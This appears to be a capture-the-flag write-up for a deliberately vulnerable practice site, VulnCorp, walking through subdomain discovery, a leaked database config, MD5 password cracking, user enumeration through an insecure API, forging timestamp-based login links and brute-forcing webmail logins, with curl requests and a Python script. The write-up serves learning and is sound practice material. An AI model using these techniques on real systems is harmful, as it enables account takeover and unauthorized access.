# VulnCorp

http://www.vulncorp.co.uk - 9 flags to find



OK usual trick of checking subs first

```
└─$ assetfinder -subs-only vulncorp.co.uk
www.vulncorp.co.uk
vulncorp.co.uk
vulncorp.co.uk
vulncorp.co.uk
```

So nothing with assetfinder, a fuzz with the subdomain word list did however bring back 3

- chat.vulncorp.co.uk
- prueba.vulncorp.co.uk
- webmail.vulncorp.co.uk

All of which redirect to their own login screens. OK so lets focus on the main domain for now. Quick content discovery reveals

- /meet-the-team
- /contact
- /admin
- /phpmyadmin

OK lets go through those 1 by 1

## Meet the team



First thing that pops out to me here is that the images are of the form /images/staff_photo_x where x is 1-10. So are there more hidden images in that directory? Quick test and no a range of 0-100 still only brings back 200 OK responses for 1-10

## Contact



Submitting the form gives the message

```
Error posting to message server, subscription expired
```

## Admin



The link points at the github repo https://github.com/template-manager/template-manager. Here's the readme contents of that

```
template-manager

Template manager is a basic system built in PHP which can be used to build your website and translate URL's to templates.

It also comes with an admin interface to control plugins

When installing this product it will need write access to the project root directory to save config file with database settings.
```

So a few interesting findings straight away in here

## sql-setup.php

```php
<?php

$sql_cmd = array();
$sql_cmd[] = "CREATE TABLE page ( id int(11) NOT NULL, url varchar(250) NOT NULL, template varchar(250) NOT NULL ) ENGINE=InnoDB DEFAULT CHARSET=latin1;";
$sql_cmd[] = "ALTER TABLE page ADD PRIMARY KEY (id);";
$sql_cmd[] = "ALTER TABLE page MODIFY id int(11) NOT NULL AUTO_INCREMENT, AUTO_INCREMENT=1;";
$sql_cmd[] = "INSERT INTO page (url, template) VALUES ('/', 'home')";
$sql_cmd[] = "CREATE TABLE user (id int(11) NOT NULL,username varchar(50) NOT NULL,password varchar(32) NOT NULL) ENGINE=InnoDB DEFAULT CHARSET=latin1;";
$sql_cmd[] = "ALTER TABLE user ADD PRIMARY KEY (id);";
$sql_cmd[] = "ALTER TABLE user MODIFY id int(11) NOT NULL AUTO_INCREMENT, AUTO_INCREMENT=1;";
```

So we know the DB tables

## /admin_template/admin.php

```php
function adminLogin( $username, $password ){
    $resp = false;
    $d = Db::get()->prepare('select * from user where username = ? and password = ? LIMIT 1 ');
    $d->execute( array( $username, md5( $password ) ) );
    if( $d->rowCount() == 1 ){
        $resp = true;
    }
    return $resp;
}

if( isset($_POST["username"],$_POST["password"]) ){
    $login_error = true;
    if( $login = adminLogin($_POST["username"],$_POST["password"]) ){
        $challenge = md5(rand().date("U").print_r( $_SERVER, true ).print_r( $_POST, true ).rand());
        $auth = md5( $challenge.'s4cre4log1nStinG4T3mpl4tem4Ngaer' );
        $str = json_encode( array(
            'challenge'  =>  $challenge,
            'auth'       =>  $auth
        ));
        $hash = base64_encode(urlencode($str));
        setcookie('token',$hash,time()+3600,'/');
        header("Location: /admin/dashboard");
        exit();
    }
}
```

So the adminLogin function just returns a boolean response on username/password match, this is a prepared statement so no SQLi here. It then creates a token cookie which is based upon an encoded JSON array with a challenge md5 hash (made up of a random int, the linux epoch date, server info and post request info) and an auth string which an md5 hash of the challenge plus the string 's4cre4log1nStinG4T3mpl4tem4Ngaer'. After that it does a redirect to /admin/dashboard.

## /admin_template/dashboard.php

```php
if( isset( $_COOKIE["token"] ) ){
    $json = json_decode( urldecode(base64_decode($_COOKIE["token"])), true );
    if( gettype($json) == 'array' ){
        if( isset($json["challenge"],$json["auth"]) ){
            if( $json["auth"] ==  md5( $json["challenge"].'s4cre4log1nStinG4T3mpl4tem4Ngaer' ) ){
                $logged_in = true;
                setcookie('token',$_COOKIE["token"],time()+3600,'/');
            }
        }
    }
}
if( !$logged_in ){
    header("Location: /admin");
    exit();
}
```

The dashboard page checks for the presence of this token cookie and that its value is correct before we are allowed to proceed. If not it redirects back to the login admin page.

## /admin_template/install.php

```php
function createConfigFile( $db_host, $db, $db_user, $db_pass ){
    $myfile = fopen(getcwd()."/../".date("YmdH").".cfg", "w");
    fwrite( $myfile,"DB_HOST=".$db_host.PHP_EOL."DB_DB=".$db.PHP_EOL."DB_USER=".$db_user.PHP_EOL."DB_PASS=".$db_pass);
    fclose($myfile);
}
if( isset( $_POST["db_server"],$_POST["db_db"],$_POST["db_user"],$_POST["db_pass"],$_POST["username"],$_POST["password"] ) ){
    if( $pdo = Db::checkDb( $_POST["db_server"],$_POST["db_db"],$_POST["db_user"],$_POST["db_pass"] ) ){
        Db::setup( $pdo, $_POST["username"], $_POST["password"] );
        createConfigFile(  $_POST["db_server"],$_POST["db_db"],$_POST["db_user"],$_POST["db_pass"] );
        header("Location: /admin");
    }
}
```

So this seems to be writing a config file with the DB details in it, the name of the config file takes a date format eg. '2022071706.cfg'. Perhaps this config file still exists?

And yes it does :) (2019100213.cfg) - here's flag 1

```
DB_HOST=localhost
DB_DB=vulncorp_www
DB_USER=vulncorp_www
DB_PASS=sezk87mjd3u7wp0p

[^FLAG^xxx^FLAG^]
```

This allows me in to phpmyadmin



Now obviously this is an MD5 hash, luckily crackstation had the answer for the value 'p4ssword'

So I can now login to admin and there is flag no.2



OK so that's probably the clue to start on the chat subdomain :)



OK so lets explore creating an account. Do that and I have access to the 'Staff Room'



Try clicking the 'Create New Room' button and I get the alert

```
Account has not yet been authorised
```

There's no indication this will ever work either as the alert is triggered by this javascript

```javascript
$('.createroom').click( function(){
    alert('Account has not yet been authorised');
    return false;
});
```

OK so the link to the staff room is on the path /863. Go in to the chat room and it looks like I can post a a message


Except I can't as there's a similar limitation

```javascript
$('.sendmessage').click( function(){
    alert('Account has not yet been authorised');
    return false;
});
```

OK so there's also a link to API documentation in the nav bar



OK so I have my own hash and my own API key, I also have the admin hash but not their API Key. What's the bet I can use my API key against their account?

Let's check my own first just to validate it

```
└─$ curl -v -H "Cookie: ctfchallenge=xxx;" -H "X-Token: ZGVjYWUyMThmYjhjZTJiMmIyMGFkMjExZTVjYWEzN2I0OTBjNWIzNzQ3NTU0Mzk2ZjkyNWUyNzA3MTkyYzU2ZjQzOGNmNTNjZGIyZDU1NzM0YjQ1MjMzZTJkYjVmMWI5OTU3YzZlMTZkMDQyNzU5ZGNhZjBjNDgzNGRiYTU2OWE=" http://chat.vulncorp.co.uk/api/ajvt01Ob/room
*   Trying 68.183.255.206:80...
* Connected to chat.vulncorp.co.uk (68.183.255.206) port 80 (#0)
> GET /api/ajvt01Ob/room HTTP/1.1
> Host: chat.vulncorp.co.uk
> User-Agent: curl/7.82.0
> Accept: */*
> Cookie: ctfchallenge=PREMIUMeyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTBkalJsY1hsa2VDSXNJbkJ5WlcxcGRXMGlPblJ5ZFdWOSIsInZlcmlmeSI6IjdkZWJlOTAxMjBiOTU5ZGI2MTAxZjI3MTMxZWNiOGExIn0=;
> X-Token: ZGVjYWUyMThmYjhjZTJiMmIyMGFkMjExZTVjYWEzN2I0OTBjNWIzNzQ3NTU0Mzk2ZjkyNWUyNzA3MTkyYzU2ZjQzOGNmNTNjZGIyZDU1NzM0YjQ1MjMzZTJkYjVmMWI5OTU3YzZlMTZkMDQyNzU5ZGNhZjBjNDgzNGRiYTU2OWE=
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< server: nginx/1.21.1
< date: Mon, 18 Jul 2022 09:56:59 GMT
< content-type: application/json
< set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulncorp.co.uk
< transfer-encoding: chunked
< 
* Connection #0 to host chat.vulncorp.co.uk left intact
[{"id":863,"name":"Staff Room"}]
```

Yup ok that works, now to substitute the admin hash

```
└─$ curl -v -H "Cookie: ctfchallenge=xxx;" -H "X-Token: ZGVjYWUyMThmYjhjZTJiMmIyMGFkMjExZTVjYWEzN2I0OTBjNWIzNzQ3NTU0Mzk2ZjkyNWUyNzA3MTkyYzU2ZjQzOGNmNTNjZGIyZDU1NzM0YjQ1MjMzZTJkYjVmMWI5OTU3YzZlMTZkMDQyNzU5ZGNhZjBjNDgzNGRiYTU2OWE=" http://chat.vulncorp.co.uk/api/b3XnP2gk/room
*   Trying 68.183.255.206:80...
* Connected to chat.vulncorp.co.uk (68.183.255.206) port 80 (#0)
> GET /api/b3XnP2gk/room HTTP/1.1
> Host: chat.vulncorp.co.uk
> User-Agent: curl/7.82.0
> Accept: */*
> Cookie: ctfchallenge=PREMIUMeyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTBkalJsY1hsa2VDSXNJbkJ5WlcxcGRXMGlPblJ5ZFdWOSIsInZlcmlmeSI6IjdkZWJlOTAxMjBiOTU5ZGI2MTAxZjI3MTMxZWNiOGExIn0=;
> X-Token: ZGVjYWUyMThmYjhjZTJiMmIyMGFkMjExZTVjYWEzN2I0OTBjNWIzNzQ3NTU0Mzk2ZjkyNWUyNzA3MTkyYzU2ZjQzOGNmNTNjZGIyZDU1NzM0YjQ1MjMzZTJkYjVmMWI5OTU3YzZlMTZkMDQyNzU5ZGNhZjBjNDgzNGRiYTU2OWE=
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< server: nginx/1.21.1
< date: Mon, 18 Jul 2022 09:58:36 GMT
< content-type: application/json
< set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulncorp.co.uk
< transfer-encoding: chunked
< 
* Connection #0 to host chat.vulncorp.co.uk left intact
["Account Hash does not match ApiKey Account"]
```

OK no, not against that endpoint anyway. 

Perhaps I'm getting ahead of myself, lets check what I can do with my own hash and the response I get from them

### GET /api/[account-hash]/room

```
[{"id":863,"name":"Staff Room"}
```

### POST /api/[account-hash]/room

```
["Cannot create Room as your account has not been authorised"]
```

### GET /api/[account-hash]/room/[room-id]

where room-id-863
```
{"id":863,"name":"Staff Room","messages":[]}
```

### POST /api/[account-hash]/room/[room-id]

where room-id-863
```
["Cannot create Room as your account has not been authorised"]
```

### GET /api/[account-hash]/user

```
[{"id":937,"disabled":false,"name":"No Name","email":"pxxx.sxxxxxx@xxx.com"}]
```

### POST /api/[account-hash]/user

```
["Cannot create User as your account has not been authorised"]
```

### GET /api/[account-hash]/user/[user-id]

```
{"id":937,"disabled":false,"name":"No Name","email":"pxxx.sxxxxxx@xxx.com"}
```

With all of these if I try switching out the hash for the admin hash I get the error message back

```
["Account Hash does not match ApiKey Account"]
```

All that is but for one, GET /api/[account-hash]/user/[user-id]

For example a GET on /api/b3XnP2gk/user/937 gives the response

```
["You do not have access to this user"]
```

OK so perhaps I can get the account details including the email address of the admin just by finding the correct id.

So I get hits for

8
```
{"id":8,"disabled":true,"name":"Lexi Irving","email":"lexi.irving.d22f95b538d6e147@vulncorp.co.uk"}
```

19
```
{"id":19,"disabled":false,"name":"Danni Latowski","email":"danni.latowski.4d74650af0cf9095@vulncorp.co.uk"}
```

50
```
{"id":50,"disabled":true,"name":"Dorothy Matthams","email":"dorothy.matthams.184cfd3b07028cd1@vulncorp.co.uk"}
```

77
```
{"id":77,"disabled":true,"name":"[^FLAG^xxx^FLAG^]","email":"flag@vulncorp.co.uk"}
```

OK cool I now have flag no.3 plus some accounts, one of which is not disabled. And there was a forgot password functionality which accepts email addresses. Lets check that out



When the form is submitted I get another message

```
If we found a matching email address we will send you an email with a link to log you in
```

Check my email and I get a link to follow 

```
Please go to the following link to reset your password: http://chat.vulncorp.co.uk/login/ajvt01Ob/937/1658151772
```

I follow the link and it signs me straight in, no password needed. It doesn't even ask me to reset the password.

The number at the end of the link looks suspicously like a linux epoch time to me! Quick check

```
Monday, 18 July 2022 13:42:52
```

Yup that's much too close to be a coincedence :)

Looking back at the teams page Danni is a web developer so it seems reasonable that he could be the admin of the page. Lets try generating a reset link for him

And yes :) a path of /login/b3XnP2gk/19/1658154381 works :). I get the next flag (no.4) in a new website contact room I have access to



The staff room now appears to have some messages

```
Danni: Hello? Anybody here?
Sent On: 12/02/19 10:20:30
Dorothy: Oh hey Danni, are you a new start? We don't use this to chat to each other we use slack, we just have this to receive contact info from the website
Sent On: 12/02/19 10:21:12
Danni: Oh right sorry about that, I just wanted to talk to someone about setting up my email account
Sent On: 12/02/19 10:21:35
Dorothy: I can sort that out for you! Gimmie a minute or two
Sent On: 12/02/19 10:22:04
Dorothy: Okay you can login to your email at https://webmail.vulncorp.co.uk your email address is danni.latowski.4d74650af0cf9095@vulncorp.co.uk
Sent On: 12/02/19 10:23:53
Danni: Whoa! that's a weird email address!
Sent On: 12/02/19 10:24:39
Dorothy: oh I know, our CEO is paranoid about spam, and this seems to stop it
Sent On: 12/02/19 10:25:12
Danni: How do I know how to email other people in the company?
Sent On: 12/02/19 10:25:38
Dorothy: It's a little bit complicated but once you know how to do it it's easy!
Sent On: 12/02/19 10:25:53
Dorothy: You need to do an md5 hash of their first name and last name with a full stop in the middle ( make sure their name is in lowercase )
Sent On: 12/02/19 10:26:15
Dorothy: So for example yours would be md5("danni.latowski") and you just use the first half of the md5 and add if after their name.
Sent On: 12/02/19 10:26:53
Dorothy: Which makes mine: dorothy.matthams.184cfd3b07028cd1@vulncorp.co.uk
Sent On: 12/02/19 10:27:40
Dorothy: Get It?
Sent On: 12/02/19 10:27:44
Danni: Yeah that makes sense, thanks for your help.
Sent On: 12/02/19 10:28:09
Dorothy: No Problem :)
Sent On: 12/02/19 10:28:30
```

One other thing is I also now have the API key for Danni

```
NDA0NjM5Mzc5NDk0NzhlYTc0NjFkYzYxZTUwZjc3N2NmZjliMmQzNTdkZjRhYWE4NmRiOTFkNGFiYzM3Njc3ZjM2YzlmOTVlYmZmYWM0NGY1ODAxMWRkMWIyNDRmZDJjY2M1ZTcwM2JlZTcxMGJkNDU3YzcwMjY4MDM3ZmY2NjM=
```

This doesn't seem to give me much extra though as I still get some error on both rooms/users

```
["Cannot create Room as your subscription is overdue"]
```

```
["Cannot create User as your subscription is overdue"]
```

Time to move on, looks like webmail must be my next target. I guess I have to generate a list of email addresses using the above technique, perhaps I'll be able to brute force the password from the password list for one of them. Then read some juicy emails.

Again I can script this.

```python
>>> import hashlib
>>> names = ["andre.alexander", "acacia.forbes", "nannie.mccray", "lexi.irving", "sonya.ewing", "danni.latowski", "arley.blackburn", "sania.terrell", "dorothy.matthams", "skylah.sutton"]
>>> for name in names:
...     hash = hashlib.md5(name.encode()).hexdigest()[:16]
...     print(f"{name}.{hash}@vulncorp.co.uk")
... 
andre.alexander.068cbb15c66e5159@vulncorp.co.uk
acacia.forbes.f40a8c641b72f59f@vulncorp.co.uk
nannie.mccray.5a0dd624f943c7de@vulncorp.co.uk
lexi.irving.d22f95b538d6e147@vulncorp.co.uk
sonya.ewing.33343f5a0fae3b91@vulncorp.co.uk
danni.latowski.4d74650af0cf9095@vulncorp.co.uk
arley.blackburn.880b76bab487d841@vulncorp.co.uk
sania.terrell.cc9a15286da7ed8f@vulncorp.co.uk
dorothy.matthams.184cfd3b07028cd1@vulncorp.co.uk
skylah.sutton.a8c9d0121d4c795e@vulncorp.co.uk
```

Running a cluster bomb attack with Burp intruder I get a hit with acacia.forbes.f40a8c641b72f59f@vulncorp.co.uk and password sunshine

Sign in and this is the mailbox view



This page has some inline javascript

```javascript
var mail = {"2":{"id":2,"mail_from":"noreply@vulncorp.co.uk","subject":"Welcome","message":"Welcome to your mailbox<br><br>\r\n[^FLAG^xxx^FLAG^]\r\n<br>\r\n<br>\r\nVulnCorp Online Support","created_at":"11\/04\/2019 19:57:25"},"1":{"id":1,"mail_from":"andre.alexander.068cbb15c66e5159@vulncorp.co.uk","subject":"Team Meeting","message":"Remember the team meeting on friday everyone!<br><br>Many Thanks Andre","created_at":"23\/04\/2019 9:44:05"}};

$('.openmessage').click( function(){
    var mail_id = $(this).attr('data-id');
    if( mail.hasOwnProperty( mail_id ) ){
        var message = mail[ mail_id ];
        $('span.msg_from').html( message["mail_from"] );
        $('span.msg_subject').html( message["subject"] );
        $('span.msg_message').html( message["message"] );
        $('#messageModal').modal('show');
    }
});
```

And there's flag no.5

There's a send mail screen where I can select users to send a message to, seems the SMTP server is down though....



This page has some inline javascript

```javascript
$('.addemail').click( function(){
    var user_id = $('select[name="user_id"]').val();
    $.getJSON('/getUser?id=' + user_id, function(resp){
        if( resp.hasOwnProperty('email') ){
            $('.emails').append('<p>' + resp.email + '</p>');
        }else{
            alert('Email address not found');
        }
    }).fail(function() {
        alert('Email address not found');
    })
});
```

